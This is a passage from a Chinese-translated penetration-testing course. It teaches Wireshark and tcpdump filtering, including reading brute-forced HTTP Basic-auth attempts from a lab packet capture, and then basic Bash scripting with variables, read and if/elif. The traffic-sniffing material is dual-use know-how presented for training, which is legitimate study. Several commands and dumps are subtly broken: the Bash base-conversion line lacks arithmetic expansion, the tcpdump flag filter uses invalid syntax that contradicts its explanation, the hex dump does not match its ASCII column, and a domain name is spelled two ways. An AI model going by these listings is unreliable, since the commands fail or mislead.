使用任何网络嗅探器（包括 Wireshark）的秘诀在于学会如何使用捕获和显示过滤器来剔除多余的数据。幸运的是，Wireshark 的图形界面使得可视化和处理各种过滤器变得相对容易。

#### 4.4.2 启动 Wireshark

在以下示例中，我们将在匿名 FTP 登录期间捕获网络流量。在我们的 Kali 系统上，我们使用命令行启动 Wireshark，如列表 125 所示，或者通过应用程序菜单启动，它位于嗅探与欺骗（Sniffing & Spoofing）子菜单下。

```
kali@kali:~$ sudo wireshark
```
*列表 125 - 从终端运行 wireshark*

#### 4.4.3 捕获过滤器

当 Wireshark 加载时，我们会看到一个基本窗口，其中可以选择要监控的网络接口，并设置显示过滤器和捕获过滤器。如上所述，我们可以使用捕获过滤器通过丢弃不符合过滤器的流量来减少捕获的流量，并将注意力集中在我们要分析的数据包上。请注意，任何被捕获过滤器排除的流量都会丢失，因此，如果你担心可能会丢失数据，最好定义较广泛的捕获过滤器。

我们首先选择要监控的接口并输入捕获过滤器。在这种情况下，我们使用网络过滤器（net filter）<sup>105</sup> 仅捕获 `10.11.1.0/24` 地址范围内的流量：



*图 12：为 tap0 设置捕获过滤器*

也可以通过导航到 `Capture > Capture filters` 来选择预定义的捕获过滤器，我们也可以点击 `+` 号添加我们自己的捕获过滤器。设置好捕获过滤器后，我们可以双击可用接口列表中的网络接口（`tap0`）开始捕获。

#### 4.4.4 显示过滤器

现在 Wireshark 正在捕获本地网络上的所有流量，我们可以登录到 FTP 服务器并检查流量：

```
kali@kali:~$ ftp 10.11.1.13

Connected to 10.11.1.13.

220 Microsoft FTP Service

Name (10.11.1.13:kali): anonymous

331 Anonymous access allowed, send identity (e-mail name) as password.

Password: anonymous

230 Anonymous user logged in.

Remote system type is Windows_NT.

ftp> quit

221
```


*列表 126 - 登录到 FTP 服务器*

为了进一步缩小背景流量的范围，让我们利用显示过滤器来仅关注 FTP 协议。显示过滤器比捕获过滤器灵活得多，并且语法略有不同。显示过滤器顾名思义，仅过滤显示的数据包，而 Wireshark 继续在后台捕获 `10.11.1.0/24` 地址范围内的所有网络流量。因此，通过点击显示过滤器右侧的“X”图标（图 13），可以清除过滤器而无需重新启动捕获。与捕获过滤器一样，我们还可以点击 `Analyze > Display filters` 从预定义列表中选择过滤器。

让我们应用一个显示过滤器，该过滤器仅显示 FTP 数据，或者端口 21 上的 TCP 流量：



图 13：设置针对端口 21 上所有流量的显示过滤器

这个过滤器效果非常好。现在我们清楚地看到只有端口 21 上的 FTP 流量。

#### 4.4.5 跟踪 TCP 流

Wireshark 允许我们查看网络流量，包括每个数据包的内容。然而，我们通常更感兴趣的是不同应用程序之间的数据流。我们可以利用 Wireshark 重组特定会话并以各种格式显示的能力。要查看特定的 TCP 流，我们可以右键点击感兴趣的数据包，例如包含我们 FTP 会话中 `USER` 命令的数据包，然后选择 *Follow > TCP Stream*：



图 14：在 Wireshark 中跟踪 TCP 流

重组的 TCP 流更容易阅读，我们可以回顾与 FTP 服务器的交互。由于 FTP 是一种明文协议，我们可以看到 FTP 客户端发送和接收的命令和输出：



图 15：在 Wireshark 中跟踪 TCP 流

#### 4.4.5.1 练习

- 使用 Wireshark 捕获网络活动，同时尝试使用 Netcat 连接到 `10.11.1.217` 的 `110` 端口，然后尝试登录。
- 阅读并理解输出。三次握手在哪里发生？连接在哪里关闭？
- 跟踪 TCP 流以阅读登录尝试。
- 使用显示过滤器仅监控 `110` 端口的流量。
- 运行一个新的会话，这次使用捕获过滤器仅收集 `110` 端口的流量。

### 4.5 Tcpdump

`Tcpdump` 是一个基于文本的网络嗅探器，尽管缺乏图形界面，但它简洁、强大且灵活。它是迄今为止最常用命令行数据包分析器，可以在大多数 Unix 和 Linux 操作系统上找到，但本地用户权限决定了捕获网络流量的能力。

`Tcpdump` 既可以捕获网络流量，也可以读取现有的捕获文件。让我们看看 `password_cracking_filtered.pcap` 文件中 发生了什么，该文件是在防火墙上捕获的。下载该文件并跟随我们分析数据。首先，我们将使用 `sudo` 启动 `tcpdump`（以授予捕获权限），并使用 `-r` 选项打开文件：

<sup>100</sup> (Wireshark, 2019), https://www.wireshark.org/
<sup>101</sup> (Tcpdump & Libcap, 2019), http://www.tcpdump.org/
<sup>102</sup> (WinPcap, 2018), https://www.winpcap.org/
<sup>103</sup> (Wireshark, 2016), http://wiki.wireshark.org/CaptureFilters
<sup>104</sup> (Wireshark, 2017), http://wiki.wireshark.org/DisplayFilters
<sup>105</sup> (Berkeley Packet Filter), http://biot.com/capstats/bpf.html
<sup>106</sup> (Tcpdump & Libcap, 2019), http://www.tcpdump.org/
<sup>107</sup> (Offensive Security, 2019), https://www.offensive-security.com/pwk-online/password_cracking_filtered.pcap

#### 4.5.2 过滤流量


```
kali@kali:~$ sudo tcpdump -r password_cracking_filtered.pcap
reading from file password_cracking_filtered.pcap, link-type EN10MB (Ethernet)
08:51:20.800917 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, win 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0
08:51:20.800953 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389, ack 1855084074, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,wscale 4], length 0
08:51:20.801023 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, win 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0
08:51:20.801030 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389, ack 1855084074, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,wscale 4], length 0
08:51:20.801048 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, win 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0
08:51:20.801051 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389, ack 1855084074, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,wscale 4], length 0
...
```

*列表 127 - 使用 tcpdump 读取数据包捕获*

起初输出结果可能令人应接不暇，因此让我们尝试使用 `awk` 和 `sort` 来更好地理解其中涉及的 IP 地址和端口。

首先，我们将使用 `-n` 选项跳过 DNS 名称查找，并使用 `-r` 从我们的数据包捕获文件中读取。然后，我们可以将输出通过管道传递给 `awk`，打印出目标 IP 地址和端口（第三个以空格分隔的字段），并再次通过管道传递给 `sort` 和 `uniq -c`，分别对该字段进行排序和统计其在捕获文件中出现的次数。最后，我们使用 `head` 仅显示输出的前 10 行：

```bash
kali@kali:~$ sudo tcpdump -n -r password_cracking_filtered.pcap | awk -F " " '{print $3 }' | sort | uniq -c | head

13224 172.16.40.10.81

18 208.68.234.99.32768

18 208.68.234.99.32769

18 208.68.234.99.32770

18 208.68.234.99.32771

18 208.68.234.99.32772

18 208.68.234.99.32773

18 208.68.234.99.32774

18 208.68.234.99.32775

18 208.68.234.99.32776

...
```


### *列表 128 - 使用 tcpdump 读取并过滤数据包捕获*

我们可以看到，`172.16.40.10` 是最常见的目标地址，其次是 `208.68.234.99`。鉴于 `172.16.40.10` 是通过低目标端口 `81` 联系的，而 `208.68.234.99` 是通过高目标端口联系的，我们可以合理地假设前者是服务器，后者是客户端。

我们也可以安全地假设客户端地址对服务器发起了许多请求，但为了在没有太多假设的情况下继续，我们可以使用过滤器更仔细地检查流量。

为了从命令行进行过滤，我们将使用源主机 `src host` 和目标主机 `dst host` 过滤器，分别仅输出源和目标流量。我们还可以按端口号 `port 81` 进行过滤，以显示针对端口 `81` 的源和目标流量。让我们现在试试这些过滤器：

```bash
sudo tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap

...

08:51:20.801051 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389, ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,wscale 4], length 0

08:51:20.802053 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [.], ack 89, win 905, options [nop,nop,TS val 71430591 ecr 25538253], length 0

sudo tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap

...

08:51:20.801048 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, win 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0

08:51:20.802026 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [.], ack 4166855390, win 115, options [nop,nop,TS val 25538253 ecr 71430591], length 0

sudo tcpdump -n port 81 -r password_cracking_filtered.pcap

...

08:51:20.800917 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, win 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0

08:51:20.800953 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389, ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,wscale 4], length 0

...
```

### *列表 129 - 使用 tcpdump 过滤器*

我们可以继续使用诸如 `awk` 和 `grep` 等各种命令行实用程序来处理此过滤输出，但让我们继续前进，实际上更深入地检查一些数据包，看看我们可以发现哪些类型的细节。

为了转储捕获的流量，我们将使用 `-X` 选项以 HEX 和 ASCII 格式打印数据包数据：

```text
kali@kali:~$ sudo tcpdump -nX -r password_cracking_filtered.pcap

...

08:51:25.434062 IP 208.68.234.99.33313 > 172.16.40.10.81: Flags [P.], seq 1:140, ack 1
    0x0000:  4500 00bf 158c 4000 3966 0cea d044 ea63  10...E.....0.d
    0x0010:  ac10 280a 8221 0051 0126 a77c 6fd8 ee8a  ..(....'.......|
    0x0020:  8018 0073 1c76 0000 0101 080a 0185 b2f2  ..s.v.. ........

    0x0030:  0441 f5e3 4745 542f 2f61 646d 696e 2048  .A.GET./admin.H
    0x0040:  5454 502f 312e 310d 0a48 6973 743a 320d  HTTP/1.1.Host:.
    0x0050:  6164 6d69 6e2e 6d65 6761 636f 7270 6f6e  admin.megacorp
    0x0060:  004e 2f2f61 646d 696e 2f31 3082 0211 1e54  e.com:81.User-A
    0x0070:  6765 6e74 3a20 5465 6820 466f 7265 7374  gent:.Teh.Forest
    0x0080:  204c 6f62 7374 6572 0d0a 4175 7468 6f72  .Lobster..Author
    0x0090:  697a 6174 696f 6e3a 2042 6173 6963 2059  ization:.Basic_Y
    0x00a0:  5752 744b 5334 3662 7552 3352 6c59 0c59  WRtK46bUb3RlY
    0x00b0:  3268 7562 3278 765a 336b 7888 0a0d 0a    2hub2xvZ3k....
```

<sup>108</sup> (Wikipedia, 2019), https://en.wikipedia.org/wiki/ASCII

### *列表 130 - 使用 tcpdump 以十六进制/ASCII 输出读取数据包捕获*

我们立即注意到，指向 `172.16.40.10` 端口 `81` 的流量看起来像是 HTTP 数据。事实上，这些 HTTP 请求似乎包含基本 HTTP 身份验证数据，用户代理为“Teh Forest Lobster”。这是某种异常正在发生的非常明确的迹象。

为了揭开谜团的其余部分，我们将需要依靠高级头部过滤。

#### 4.5.3 高级头部过滤

在此阶段，为了更好地检查转储中的请求和响应，我们希望过滤掉并仅显示数据包。为此，我们将查找开启了 PSH 和 ACK 标志的数据包。初始三次握手后发送和接收的所有数据包都将设置 ACK 标志。PSH 标志用于强制立即交付数据包，并常用于交互式应用层协议中以避免缓冲。

以下图表展示了 TCP 头部，并表明 TCP 标志是从第 14 字节开始定义的。

| 0 | 8 | 16 | 24 | 32 |
|---|---|---|---|---|
| | | 源端口 | | 目标端口 | |
| | 序列号 | | | | |
| | 确认号 | | | | |
| | 数据偏移 | 保留 | C W R E U A G P R S S F | | |
| | | 窗口大小 | | | |
| | | 校验和 | | | |
| | | 紧急指针 | | | |
| | | 选项 | | 填充 | |

图 16：显示第 14 字节中标志的 TCP 数据包

查看图 16，我们可以看到 ACK 和 PSH 分别由第 14 字节的第四位和第五位表示：

| C | E | U | A | P | R | S | F |
|---|---|---|---|---|---|---|---|
| W | C | R | C | S | Y | S | I |
| R | E | G | K | H | T | N | N |
| 0 | 0 | 0 | 1 | 1 | 0 | 0 | 0 |

= 十进制 24

### *列表 131 - 计算所需的位*

<sup>109</sup> (DARPA Internet Program, 1981), https://tools.ietf.org/html/rfc793

仅开启这些位将给出 `00011000`，或十进制 `24`。

```bash
kali@kali:~$ echo "$(2#00011000)"

24
```


### *列表 132 - 在 bash 中将二进制位转换为十进制*

我们可以使用 `tcp[13] = 24` 作为显示过滤器将此数字传递给 `tcpdump`，以指示我们只想查看设置了 ACK 和 PSH 位（如 TCP 头部第 14 字节的第四和第五位（24）所表示的“数据包”）的数据包。请记住，`tcpdump` 中用于计算字节的数组索引从零开始，因此语法应为 `(tcp[13])`。

这两个标志的组合有望向我们仅显示 HTTP 请求和响应数据。以下是我们用于显示设置了 ACK 或 PSH 标志的数据包的命令：

```bash
kali@kali:~$ sudo tcpdump -A -n 'tcp[13] =~ (24|13)' -r password_cracking_filtered.pcap

05:51:20.802932 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [P.], seq 185504075:1

E.....@.9.....D..c..

E...@..Q...j...V+....*.......S1.....

....A....GET //admin HTTP/1.1

Host: admin.megacorpone.com:81

User-Agent: Teh Forest Lobster

E.....@.E.........D..c..Q...E...?I.......

..A......HTTP/1.1 401 Authorization Required

Date: Mon, 22 Apr 2013 12:51:20 GMT

Server: Apache/2.2.20 (Ubuntu)

WWW-Authenticate: Basic realm="Password Protected Area"

Vary: Accept-Encoding

Content-Length: 488

Content-Type: text/html; charset=iso-8859-1

08:51:25.044432 IP 172.16.40.10.81 > 208.68.234.99.33313:

E...s...@.E...D...c...@.Q..10...&...u.....

..A......HTTP/1.1 301 Moved Permanently

Date: Mon, 22 Apr 2013 12:51:25 GMT

...
```


服务器：Apache/2.2.20 (Ubuntu)
**位置：http://admin.megacorphone.com:81/admin/**
Vary: Accept-Encoding
Content-Length: 333
Content-Type: text/html; charset=iso-8859-1

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://admin.megacorphone.com:81/admin/">here</a>.
</p>
<hr>
<address>Apache/2.2.20 (Ubuntu) Server at admin.megacorphone.com Port 81</address>
</body></html>
```

### *列表 133 - 使用带有一些高级过滤功能的 tcpdump*

从这一点开始，我们的故事变得清晰起来。我们看到有大量的针对 **admin** 目录的认证尝试失败，导致了 HTTP 401 回复，而最后一次登录尝试似乎成功了，因为服务器回复了 HTTP 301 响应。看起来有人获取了 megacorphone 其中一台服务器的访问权限！

### 4.5.3.1 练习

- 使用 **`tcpdump`** 重新创建在 Wireshark 中捕获端口 110 流量的练习。
- 使用 `-X` 标志查看数据包的内容。如果数据被截断，研究 `-s` 标志可能如何帮助。
- 在 `password_cracking_filtered.pcap` 文件中查找所有 ‘SYN’、‘ACK’ 和 ‘RST’ 数据包。
- `tcpdump` 中可用一种替代语法，你可以使用更用户友好的过滤器来仅显示 ACK 和 PSH 数据包。在 `tcpdump` 手册中搜索 “tcpflags” 来探索这种语法。想出一种使用这种语法过滤 ACK 和 PSH 数据包的等效显示过滤器。

## 4.6 总结

在本模块中，我们演示了一些实用工具，这些工具存在于每个渗透测试人员的工具箱中，包括 *Netcat、Socat、PowerShell、Wireshark* 和 *Tcpdump*。在渗透测试期间，这些工具可以在许多方面提供帮助，特别是当目标缺乏专用工具或我们需要传输小型工具以扩大我们在目标网络上的立足点时。

## 5. Bash 脚本

GNU Bourne-Again Shell (`Bash`)[^110] 是一个强大的工作环境和技术脚本引擎。熟练的安全专业人员巧妙地利用 Bash 脚本来简化和自动化许多 Linux 任务和过程。在本模块中，我们将介绍 Bash 脚本并探索几个实用场景。

### 5.1 入门 Bash 脚本

Bash 脚本是一个纯文本文件，其中包含一系列命令，执行时就像在终端提示符下键入一样。通常来说，Bash 脚本有一个可选的扩展名 `.sh`（以便于识别），以 `#!/bin/bash` 开头，并且必须在执行前设置可执行权限。让我们从一个简单的 "Hello World" Bash 脚本开始：

```bash
kali@kali:~$ cat ./hello-world.sh
#!/bin/bash
# Hello World Bash Script
echo "Hello World!"
```

*列表 134 - 创建一个简单的 'Hello World' Bash 脚本*

这个脚本有几个值得解释的部分：

- * 第 1 行：`#!` 通常被称为 *shebang*[^111]，并被 Bash 解释器忽略。第二部分，`/bin/bash`，是解释器的绝对路径[^112]，用于运行脚本。这就是为什么这是一个 "Bash 脚本" 而不是其他类型的 shell 脚本，例如 "C Shell 脚本"。
- * 第 2 行：`#` 用于添加注释，因此其后所有文本都被忽略。
- * 第 3 行：`echo "Hello World!"` 使用 `echo` Linux 命令实用程序将给定字符串打印到终端，在这种情况下是 "Hello World!"。

接下来，让我们使该脚本可执行并运行它：

```bash
kali@kali:~$ chmod +x hello-world.sh
kali@kali:~$ ./hello-world.sh
Hello World!
```

*列表 135 - 运行一个简单的 'Hello World' Bash 脚本*

`chmod` 命令配合 `+x` 选项用于使脚本可执行，而 `./hello-world.sh` 用于实际运行它。`./` 符号可能看起来令人困惑，但这只是一个路径符号，表明该脚本位于当前目录。每当我们输入一个命令时，Bash 会尝试在一个存储在名为 `PATH` 的变量[^113]中的目录系列中找到它。由于我们的主目录未包含在该变量中，我们必须使用到我们的 Bash 脚本的相对路径[^114]，以便 Bash 能够 "找到" 并运行它。

现在我们已经创建了第一个 Bash 脚本，让我们更详细地探索一下 Bash。

### 5.2 变量

变量是用于临时存储数据的命名位置。我们可以设置（或 "声明"）变量，这为其分配一个值，或者读取变量，这将 "展开" 或 "解析" 为其存储的值。

我们可以通过多种方式声明变量值。最简单的方法是使用简单的 *名称=值* 声明直接设置值。注意 "=" 符号前后没有空格：

```
kali@kali:~$ first_name=Good
```

*列表 136 · 声明一个简单变量*

声明变量是毫无意义的，除非我们可以引用它。要做到这一点，我们在变量前加上 "${ }" 字符。每当 Bash 在命令中遇到这种语法时，它在执行前将变量名称替换为其值（"展开" 变量）：

```
kali@kali:~$ first_name=Good
kali@kali:~$ last_name=Hacker
kali@kali:~$ echo $first_name $last_name
Good Hacker
```


列表 137 · 声明并显示我们自己的变量

变量名称可以是大写、小写或两者的混合。然而，Bash 对大小写敏感，因此我们在声明和展开变量时必须保持一致。此外，使用描述性变量名是一个好习惯，这使得我们的脚本更容易阅读和维护。

请注意，Bash 以特定方式解释某些字符。例如，此声明展示了一个不正确的多值变量声明：

```
kali@kali:~$ greeting=Hello World

bash: World: command not found
```

列表 138 · 尝试将复杂值分配给变量

这可能不是我们预期的结果。要修复这个问题，我们可以使用单引号 (`' '`) 或双引号 (`" "`) 来包围我们的文本。然而，Bash 对单引号和双引号的处理方式不同。当遇到单引号时，Bash 逐字解释每个包含在内的字符。当被双引号包围时，除了 `"$"`、`" "` 和 `"\""` 之外的所有字符都视为字面意思，这意味着在封闭文本的初始替换过程中变量将被展开。

一个简单的例子有助于澄清这一点：

```
kali@kali:~$ greeting='Hello World'
```


```
kali@kali:~$ echo $greeting

Hello World

kali@kali:~$ greeting2="New $greeting"

kali@kali:~$ echo $greeting2

New Hello World
```

列表 139 - 使用单引号和双引号来说明使用字符串进行复杂变量赋值

在这个例子中，用单引号包围的 `*greeting*` 声明保留了我们文本的确切值，并且没有将空格解释为命令分隔符。然而，在用双引号包围的 `*greeting2*` 声明中，Bash 将 `*$greeting*` 展开为其值（"Hello World"），尊重了 `"$"` 字符的特殊含义。

我们还可以将变量的值设置为命令或程序的结果。这被称为*命令替换*[^115]，它允许我们获取命令或程序的输出（通常打印到屏幕的内容）并将其保存为变量的值。

要做到这一点，请将变量名放在括号 `"( )"` 中，并在前面加上 `"$"` 字符：

```
kali@kali:~$ user=$(whoami)

kali@kali:~$ echo $user

kali
```

列表 140 - 说明命令替换和变量的使用

在列表 140 中，我们将 `**whoami**` 命令的输出分配给 `*user*` 变量。然后我们显示了它的值。下面显示了使用反引号或 grave 字符（`` ` ``）进行命令替换的替代语法：

```
kali@kali:~$ user2=`whoami`

kali@kali:~$ echo $user2

kali
```

列表 141 - 命令替换的替代语法

反引号方法较老，通常不推荐，因为两种命令替换方法的行为存在差异[^116]。还值得注意的是，命令替换发生在子 shell 中，子 shell 中对变量的更改不会改变主进程的变量。这在下例中得到了说明：

```
kali@kali:~$ cat ./subshell.sh

#!/bin/bash -x

var1=value1

echo $var1

var2=value2

echo $var2
```

[^110]: (GNU, 2017), http://www.gnu.org/software/bash/
[^111]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Shebang_(Unix)
[^112]: (The Linux Information Project, 2005), http://www.linfo.org/absolute_pathname.html
[^113]: (O'Reilly Media, Inc., 1998), https://www.oreilly.com/library/view/learning-the-bash/156923472/ch04s02.html
[^114]: (The Linux Foundation, 2016), https://www.linux.com/blog/absolute-path-vs-relative-path-linuxunix
[^115]: (GNU, 2019), https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html
[^116]: (BashFAQ, 2016), http://mywiki.wooledge.org/BashFAQ/082

#### 5.2.1 参数

并非所有的 Bash 脚本都需要参数。然而，理解 Bash 如何解释参数以及如何正确使用它们至关重要。我们之前已经执行过带有参数的 Linux 命令。例如，当我们运行命令 `ls -l /var/log` 时，`-l` 和 `/var/log` 都是 `ls` 命令的参数。

Bash 脚本也不例外；我们可以提供命令行参数并在脚本中使用它们：

```bash
kali@kali:~$ cat ./arg.sh

#!/bin/bash

echo "The first two arguments are $1 and $2"

kali@kali:~$ chmod +x ./arg.sh

kali@kali:~$ ./arg.sh hello there

The first two arguments are hello and there
```

*列表 143 - 展示在 Bash 中使用参数*

> 117（维基百科，2019），https://en.wikipedia.org/wiki/Parameter_(computer_programming)

在列表 143 中，我们创建了一个简单的 Bash 脚本，为其设置了可执行权限，然后使用两个参数运行了它。`$1` 和 `$2` 变量分别代表传递给脚本的第一个和第二个参数。让我们探索一下几个特殊的 Bash 变量：

| 变量名 | 描述 |
|---|---|
| `$0` | Bash 脚本的名称 |
| `$1 - $9` | 传递给 Bash 脚本的前 9 个参数 |
| `$#` | 传递给 Bash 脚本的参数数量 |
| `$@` | 传递给 Bash 脚本的所有参数 |
| `$?` | 最近一次运行进程的状态 |
| `$$` | 当前脚本的进程 ID |
| `$USER` | 运行脚本的用户名 |
| `$HOSTNAME` | 机器的主机名 |
| `$RANDOM` | 一个随机数 |
| `$LINENO` | 脚本中的当前行号 |

其中一些特殊变量在调试脚本时非常有用。例如，我们可以获取命令的状态以确定它是否成功执行。

#### 5.2.2 读取用户输入

命令行参数是一种用户输入形式，但我们也可以使用 `**read**` 命令在脚本运行时捕获交互式用户输入。在这个例子中，我们将使用 `**read**` 捕获用户输入并将其赋值给一个变量：

```bash
kali@kali:~$ cat ./input.sh

#!/bin/bash

echo "Hello there, would you like to learn how to hack: Y/N?"

read answer

echo "Your answer was $answer"

kali@kali:~$ chmod +x ./input.sh

kali@kali:~$ ./input.sh

Hello there, would you like to learn how to hack: Y/N?

Y

Your answer was Y
```

我们可以通过各种命令行选项来改变 `**read**` 命令的行为。最常用的两个选项包括 `**-p**`（允许我们指定提示语）和 `**-s**`（使用户输入静默）。后者非常适合捕获用户凭据：

```bash
kali@kali:~$ cat ./input2.sh

#!/bin/bash

# Prompt the user for credentials

read -p 'Username: ' username

read -s -p 'Password: ' password

echo "Thanks, your creds are as follows: " $username " and" $password

kali@kali:~$ chmod +x ./input2.sh

kali@kali:~$ ./input2.sh

Username: kali

Password:

Thanks, your creds are as follows: kali and nothing2see!


*列表 145 - 提示用户输入并静默读取使用 read*

### 5.3 If、Else、Elif 语句

条件语句允许我们根据不同的条件执行不同的操作。最常见的 Bash 条件语句包括 `if`、`else` 和 `elif`。

`if` 语句相对简单——它检查条件是否为真——但需要非常特定的语法。请仔细注意这种语法，特别是必需空格的使用：

```
if [ <some test> ]
then
    <perform an action>
fi
```

*列表 146 - `if` 语句的一般语法*

在这个列表中，如果 "`some test`" 评估为真，脚本将 "`perform an action`"，或者执行 `then` 和 `fi` 之间的任何命令。让我们看一个实际的例子：

```bash
kali@kali:~$ cat ./if.sh
#!/bin/bash
# if statement example
read -p "What is your age: " age
if [ $age -lt 16 ]
then
    echo "You might need parental permission to take this course!"
fi
kali@kali:~$ chmod +x ./if.sh
kali@kali:~$ ./if.sh
What is your age: 15
You might need parental permission to take this course!
```

*列表 147 - 在 Bash 中使用 `if` 语句*

在这个例子中，我们使用 `if` 语句检查用户输入的年龄。如果输入的年龄小于 (`-lt`) 16，脚本将输出警告信息。

上述 `if` 语句中的方括号（`[` 和 `]`）实际上是对 `test` 命令的引用。这意味着我们可以使用 `test` 命令允许的所有运算符。一些最常用的运算符包括：

| 运算符 | 描述：当表达式为真时... |
|---|---|
| `!EXPRESSION` | `EXPRESSION` 为假。 |
| `-n STRING` | `STRING` 的长度大于零 |
| `-z STRING` | `STRING` 的长度为零（为空） |
| `STRING1 != STRING2` | `STRING1` 不等于 `STRING2` |
| `STRING1 = STRING2` | `STRING1` 等于 `STRING2` |
| `INTEGER1 -eq INTEGER2` | `INTEGER1` 等于 `INTEGER2` |
| `INTEGER1 -ne INTEGER2` | `INTEGER1` 不等于 `INTEGER2` |
| `INTEGER1 -gt INTEGER2` | `INTEGER1` 大于 `INTEGER2` |
| `INTEGER1 -lt INTEGER2` | `INTEGER1` 小于 `INTEGER2` |
| `INTEGER1 -ge INTEGER2` | `INTEGER1` 大于或等于 `INTEGER2` |
| `INTEGER1 -le INTEGER2` | `INTEGER1` 小于或等于 `INTEGER2` |
| `-d FILE` | `FILE` 存在且是一个目录 |
| `-e FILE` | `FILE` 存在 |
| `-r FILE` | `FILE` 存在且具有读权限 |
| `-s FILE` | `FILE` 存在且不为空 |
| `-w FILE` | `FILE` 存在且具有写权限 |
| `-x FILE` | `FILE` 存在且具有执行权限 |

基于上述内容，我们之前使用 `if` 的例子可以重写为没有方括号的形式如下：

```bash
kali@kali:~$ cat ./if2.sh
#!/bin/bash
# if statement example 2
read -p "What is your age: " age
if test $age -lt 16
then
echo "You might need parental permission to take this course!"
fi
kali@kali:~$ chmod +x ./if2.sh
kali@kali:~$ ./if2.sh
What is your age: 15
You might need parental permission to take this course!
```

虽然这个例子在功能上与使用方括号的例子等价，但使用方括号使代码稍易阅读。

如果某个语句为真，我们还可以执行一组特定的操作；如果为假，则执行另一组操作。为此，我们可以使用 `else` 语句，其语法如下：

```
if [ <some test> ]
then
<perform action>
else
<perform another action>
fi
```

*列表 149 - `else` 语句的一般语法*

让我们扩展之前的 "年龄" 例子，加入 `else` 语句：

```bash
kali@kali:~$ cat ./else.sh
#!/bin/bash
# else statement example
read -p "What is your age: " age
if [ $age -lt 16 ]
then
    echo "You might need parental permission to take this course!"
else
    echo "Welcome to the course!"
fi
kali@kali:~$ chmod +x ./else.sh
kali@kali:~$ ./else.sh
What is your age: 21
Welcome to the course!
```

*列表 150 - 在 Bash 中使用 `else` 语句*

请注意，当输入的年龄大于（更确切地说是 "不小于"）十六岁时，执行了 `else` 语句。

`*if*` 和 `*else*` 语句只允许两个代码执行分支。我们可以使用 `*elif*` 语句添加额外的分支，其使用以下模式。

```
if [ <some test> ]
then
    <perform action>
elif [ <some test> ]
then
    <perform different action>
else
    <perform yet another different action>
fi
```

*列表 151 - Bash 中的 `elif` 语法*

让我们再次扩展我们的 "年龄" 例子，包含 `*elif*` 语句：

```bash
kali@kali:~$ cat ./elif.sh
#!/bin/bash
# elif example
read -p "What is your age: " age
if [ $age -lt 16 ]
then
    echo "You might need parental permission to take this course!"
elif [ $age -gt 60 ]
then
```


```
echo "向你致敬，表示尊重！"
else
echo "欢迎参加本课程！"
fi
```

`kali@kali:~$ chmod +x ./elif.sh`

`kali@kali:~$ ./elif.sh`
What is your age: 65
Hats off to you, respect!

示例 152 - 在 Bash 中使用 elif 语句

